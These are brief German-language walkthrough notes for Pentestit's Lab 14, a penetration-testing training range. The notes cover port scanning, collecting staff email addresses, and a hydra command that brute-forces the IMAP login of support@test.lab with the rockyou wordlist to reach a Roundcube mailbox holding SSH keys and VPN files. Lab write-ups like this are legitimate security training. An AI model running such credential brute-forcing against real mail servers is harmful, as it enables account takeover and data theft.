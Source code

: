 # Lab 14

https://lab.pentestit.ru/pentestlabs/14
Tools: Debian 10, nmap,wpscan,dirb,Metasploit,hydra, rockyou.txt

Gateways: 
  * 192.168.101.14
  * 192.168.101.15
  
## Mail - Token 

Host: 192.168.101.14

- in /etc/hosts eintragen: "192.168.101.14 site.test.lab"
- Mailadressen auf http://site.test.lab:
  * sidorov@test.lab
  * ivanov@test.lab
  * petrov@test.lab (IT)
  * support@test.lab
- Portscan mit nmap: 
  * 80/tcp   open  http    nginx 1.18.0
  * 143/tcp  open  imap    Dovecot imapd
  * 8080/tcp open  http    nginx (Roundcube!)
- hydra site.test.lab imap -l support@test.lab -P rockyou.txt
   => pwd="PASSWORD"
   => Login in Roundcube (http://site.test.lab:8080)
   => Mailbox: Mail-Token, SSH-Key (ivanov), client.jar (dev), vpn.zip (gagarin)
   
   
  

